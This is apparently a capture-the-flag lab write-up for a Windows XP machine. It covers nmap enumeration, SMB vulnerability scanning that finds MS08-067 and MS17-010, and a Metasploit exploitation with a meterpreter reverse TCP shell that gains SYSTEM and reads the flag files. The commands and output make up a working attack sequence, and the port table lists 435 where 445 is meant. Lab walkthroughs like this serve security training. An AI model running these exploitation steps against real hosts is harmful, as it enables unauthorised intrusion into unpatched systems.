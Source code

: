 ## Default Information
IP address: 10.10.10.4\
OS : Windows

## Enumeration
Lets start with running a network scan on the IP address using ```NMAP``` to identify the open ports and the services running on the open ports (NOTE: This might take up quite some time)
* sV : service detection
* sC : Run default nmap scripts
* A : identify the OS behind each ports
* -p- : scan all ports
```code 
sudo nmap -sC -sV -A -p- -T4 10.10.10.4 -vv
```

From the output of ```NMAP```, we are able to obtain the following information about the open ports:
| Port Number | Service | Version | State |
|-----|------------------|----------------------|----------------------|
| 139	| netbios-ssn | Microsoft Windows netbios-ssn | Open |
| 435	| microsoft-ds | Windows XP microsoft-ds | Open |
| 3389	| ms-wbt-server | NIL | Closed |

Apart from that, the output of ```NMAP``` also reveals that there is a SMB service running on the IP address, with a possibility that ```SMB v1``` is used and running on ```Microsoft XP```
```code
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-08-09T17:47:12+03:00
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)
```

## Discovery
Knowing that ports 139 and 435 are running SMB services, we will run a ```nmap``` script to check for SMB vulnerabilities
* --script : Specify the script to scan
* -p : Specify the ports to run the scan on
```code
sudo nmap --script smb-vuln* -p139,435 10.10.10.4 -vv
```

From the output, we know that the ports are vulnerable to ```CVE-2008-4250/MS08-067``` and ```CVE-2017-0143/MS17-010```
```code
Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: SMB: Failed to receive bytes: ERROR
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

## Exploitation
### CVE-2008-4250
For ```CVE-2008-4250```, I will use meterpreter to exploit the vulnerability (Cant seem to find any working exploit:(). After the exploit, we realise that we have gained access to the SMB server with root privileges
```code
msf6 > use exploit/windows/smb/ms08_067_netapi
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms08_067_netapi) > set RHOST 10.10.10.4
RHOST => 10.10.10.4
msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST 10.10.16.250
LHOST => 10.10.16.250
msf6 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 10.10.16.250:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175174 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.16.250:4444 -> 10.10.10.4:1028) at 2021-08-09 14:35:05 -0400
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
#### Obtaining user flag
```code
meterpreter > cd ..
meterpreter > cd ..
meterpreter > pwd
C:\
meterpreter > cd Documents\ and\ Settings
meterpreter > pwd
C:\Documents and Settings
meterpreter > ls
Listing: C:\Documents and Settings
==================================

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40777/rwxrwxrwx  0     dir   2017-03-16 02:07:20 -0400  Administrator
40777/rwxrwxrwx  0     dir   2017-03-16 01:20:29 -0400  All Users
40777/rwxrwxrwx  0     dir   2017-03-16 01:20:29 -0400  Default User
40777/rwxrwxrwx  0     dir   2017-03-16 01:32:52 -0400  LocalService
40777/rwxrwxrwx  0     dir   2017-03-16 01:32:42 -0400  NetworkService
40777/rwxrwxrwx  0     dir   2017-03-16 01:33:41 -0400  john

meterpreter > cd john
meterpreter > ls
Listing: C:\Documents and Settings\john
=======================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40555/r-xr-xr-x   0       dir   2017-03-16 01:33:41 -0400  Application Data
40777/rwxrwxrwx   0       dir   2017-03-16 01:33:41 -0400  Cookies
40777/rwxrwxrwx   0       dir   2017-03-16 01:33:41 -0400  Desktop
40555/r-xr-xr-x   0       dir   2017-03-16 01:33:41 -0400  Favorites
40777/rwxrwxrwx   0       dir   2017-03-16 01:33:41 -0400  Local Settings
40555/r-xr-xr-x   0       dir   2017-03-16 01:33:41 -0400  My Documents
100666/rw-rw-rw-  524288  fil   2017-03-16 01:33:41 -0400  NTUSER.DAT
100666/rw-rw-rw-  1024    fil   2017-03-16 01:33:41 -0400  NTUSER.DAT.LOG
40777/rwxrwxrwx   0       dir   2017-03-16 01:33:41 -0400  NetHood
40777/rwxrwxrwx   0       dir   2017-03-16 01:33:41 -0400  PrintHood
40555/r-xr-xr-x   0       dir   2017-03-16 01:33:41 -0400  Recent
40555/r-xr-xr-x   0       dir   2017-03-16 01:33:41 -0400  SendTo
40555/r-xr-xr-x   0       dir   2017-03-16 01:33:41 -0400  Start Menu
40777/rwxrwxrwx   0       dir   2017-03-16 01:33:41 -0400  Templates
100666/rw-rw-rw-  178     fil   2017-03-16 01:33:42 -0400  ntuser.ini

meterpreter > cd Desktop
meterpreter > ls
Listing: C:\Documents and Settings\john\Desktop
===============================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  32    fil   2017-03-16 02:19:32 -0400  user.txt

meterpreter > cat user.txt
```
#### Obtaining system flag
```code
meterpreter > cd ..
meterpreter > cd ..
meterpreter > pwd
C:\Documents and Settings
meterpreter > ls
Listing: C:\Documents and Settings
==================================

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40777/rwxrwxrwx  0     dir   2017-03-16 02:07:20 -0400  Administrator
40777/rwxrwxrwx  0     dir   2017-03-16 01:20:29 -0400  All Users
40777/rwxrwxrwx  0     dir   2017-03-16 01:20:29 -0400  Default User
40777/rwxrwxrwx  0     dir   2017-03-16 01:32:52 -0400  LocalService
40777/rwxrwxrwx  0     dir   2017-03-16 01:32:42 -0400  NetworkService
40777/rwxrwxrwx  0     dir   2017-03-16 01:33:41 -0400  john

meterpreter > cd Administrator
meterpreter > ls
Listing: C:\Documents and Settings\Administrator
================================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40555/r-xr-xr-x   0       dir   2017-03-16 02:07:20 -0400  Application Data
40777/rwxrwxrwx   0       dir   2017-03-16 02:07:20 -0400  Cookies
40777/rwxrwxrwx   0       dir   2017-03-16 02:07:20 -0400  Desktop
40555/r-xr-xr-x   0       dir   2017-03-16 02:07:20 -0400  Favorites
40777/rwxrwxrwx   0       dir   2017-03-16 02:07:20 -0400  Local Settings
40555/r-xr-xr-x   0       dir   2017-03-16 02:07:20 -0400  My Documents
100666/rw-rw-rw-  524288  fil   2017-03-16 02:07:20 -0400  NTUSER.DAT
100666/rw-rw-rw-  1024    fil   2017-03-16 02:07:20 -0400  NTUSER.DAT.LOG
40777/rwxrwxrwx   0       dir   2017-03-16 02:07:20 -0400  NetHood
40777/rwxrwxrwx   0       dir   2017-03-16 02:07:20 -0400  PrintHood
40555/r-xr-xr-x   0       dir   2017-03-16 02:07:20 -0400  Recent
40555/r-xr-xr-x   0       dir   2017-03-16 02:07:20 -0400  SendTo
40555/r-xr-xr-x   0       dir   2017-03-16 02:07:20 -0400  Start Menu
40777/rwxrwxrwx   0       dir   2017-03-16 02:07:20 -0400  Templates
100666/rw-rw-rw-  178     fil   2017-03-16 02:07:21 -0400  ntuser.ini

meterpreter > cd Desktop
meterpreter > ls
Listing: C:\Documents and Settings\Administrator\Desktop
========================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  32    fil   2017-03-16 02:18:19 -0400  root.txt

meterpreter > cat root.txt
```
